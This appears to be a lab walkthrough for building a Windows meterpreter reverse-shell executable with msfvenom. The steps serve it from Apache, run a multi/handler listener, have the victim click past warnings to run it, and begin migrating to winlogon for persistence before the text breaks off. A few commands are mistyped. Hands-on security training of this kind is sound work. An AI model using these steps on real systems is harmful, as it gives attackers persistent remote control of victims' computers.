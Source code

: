 Find the attackers ip address using ifconfig

### Output:


<img width="906" height="524" alt="image" src="https://github.com/user-attachments/assets/37bd34e9-d78a-48af-8e21-88ba03a7ccf7" />

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="903" height="353" alt="image" src="https://github.com/user-attachments/assets/37e861b9-2f60-4705-858b-a34415c0978e" />



copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```



<img width="563" height="708" alt="image" src="https://github.com/user-attachments/assets/fc28846a-940d-482e-afda-cb1fc2987805" />

Invoke msfconsole:


<img width="588" height="482" alt="image" src="https://github.com/user-attachments/assets/6e0d9018-cf50-4370-b561-74c9b40d18ae" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="719" height="112" alt="image" src="https://github.com/user-attachments/assets/dbfbd573-6bd3-43b3-bec6-b232a7ca989b" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="495" height="72" alt="image" src="https://github.com/user-attachments/assets/a70aa14c-ad12-45d4-a01e-4dcd78d309f0" />



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
